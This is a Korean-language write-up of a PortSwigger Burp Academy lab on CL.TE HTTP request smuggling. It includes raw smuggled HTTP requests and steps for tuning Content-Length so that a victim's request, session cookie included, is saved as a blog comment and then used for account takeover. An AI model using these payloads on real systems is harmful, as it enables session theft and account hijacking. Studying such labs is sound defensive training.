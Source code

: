 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Exploiting HTTP request smuggling to capture other users' requests"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-19 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/exploiting
- 난이도: PRACTITIONER (보통)

# 취약점 개요 (Capturing other users' requests)
- 만약 어플리케이션이 유저의 데이터를 저장하고 보여주는 기능을 가지고 있고, HTTP요청 스머글링이 가능하다면, 다른 유저를 요청 내용을 저장하는 용도로 악용될 가능성이 있다. 이 요청 내용에는 세션토큰과 같은 중요 정보도 포함된다. 
- 원리는 이전문제 (프론트엔드 서버가 추가한 HTTP 헤더 내용을 노출시키는 것)와 비슷하다. 스머글링한 HTTP요청의 Content-Length 값이 스머글링 요청의 바디값보다 크면, 그 크기만큼 커넥션에서 이어지는 다른 HTTP 요청 자체가, 스머글링 요청의 바디로 취급되는 원리다. 
- 따라서 이어지는 요청의 HTTP 요청자체가 어플리케이션에 저장되게 된다. 이를 공격자가 보고 정보를 훔치는 것이다.

예를 들면 다음과 같은 모양이다. 

- 저장되는 정보를 담는 파라메터(`comment`)를 가장 HTTP요청의 가장 뒤쪽에 배치하는 것이 포인트다. 
- Content-Length 헤더 값이 400이다. 이 요청의 바디의 길이는 144바이트이므로 이어지는 요청의 256바이트 분의 데이터가 comment 파라메터의 값으로 처리된다. 

```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프론트 엔드 서버는 chunked encoding(TE헤더)을 지원하지 않는다. (즉, CL.TE패턴이다.)
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, 다른 유저의 요청이 어플리케이션에 저장되도록 한다. 이 유저의 세션쿠키를 얻어내서 해당 세션으로 어플리케이션에 접근하면 된다. 
- 랩은 Victim의 행동을 시뮬레이션하고 있다. 몇 개의 POST요청이 발생할 때마다 victim도 요청을 보낸다. 

```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

Notes   
The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.
```

# 풀이 
1. 공격 가능 포인트를 찾는다. 유저의 요청이 저장되는 부분이다. 블로그 포스트에 커멘트를 저장하는 부분이 있으므로 여기를 이용가능할 것 같다. 

![공격 가능 포인트](/images/burp-academy-hrs-9-1.png)

2. 스머글링해본다. 아래와 같은 형태였을 때 성공했다. 

```
POST / HTTP/1.1
Host: 0a4800bc035b26a98132e8760047007f.web-security-academy.net
Cookie: session=52juPoQ8YgvbMKvGyYhVVRbMPSFc1R1n
Content-Length: 319
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a4800bc035b26a98132e8760047007f.web-security-academy.net
Cookie: session=52juPoQ8YgvbMKvGyYhVVRbMPSFc1R1n
Content-Length: 400
Content-Type: application/x-www-form-urlencoded

csrf=61d1u1mxC1E8B2rPrruu6PjQsSrREKdV&postId=6&name=moon&email=moon%40tester.com&website=&comment=
```

![스머글링 성공](/images/burp-academy-hrs-9-2.png)

블로그 글 보기 URL을 리로딩해본다. 그러면 다음과 같이 HTTP요청이 저장된 것을 볼 수 있다. 

![HTTP요청이 저장된 모습](/images/burp-academy-hrs-9-3.png)

3. 현재는 스머글링 요청에 지정한 Content-Length 헤더 값이 400이다. 이 것으로는 필요한 정보를 노출시키기에는 조금 짧으므로 서서히 키우면서 반복해서 테스트해본다. 테스트 하다보면 페이지를 리로딩했을 때 다음과 같이 Invalid Request페이지로 리다이렉트 되는 경우도 있다. 

![Invalid Request페이지로 이동](/images/burp-academy-hrs-9-4.png)

Content-Length 값이 너무 크면 타임아웃이 발생하기도 한다. 

![타임아웃 발생](/images/burp-academy-hrs-9-5.png)

4. 어쨌든 계속 반복한다. Content-Length 값이 900정도 였을 때 몇번 반복테스트해서 다음과 같이 Victim의 세션토큰을 얻어내는데 성공했다. 

![Victim의 세션토큰을 얻어내는데 성공](/images/burp-academy-hrs-9-6.png)

5. 이 세션토큰을 가지고 계정 정보 페이지에 접근하면 문제가 풀렸다는 메세지가 표시된다. 

![풀이 성공](/images/burp-academy-hrs-9-success.png)

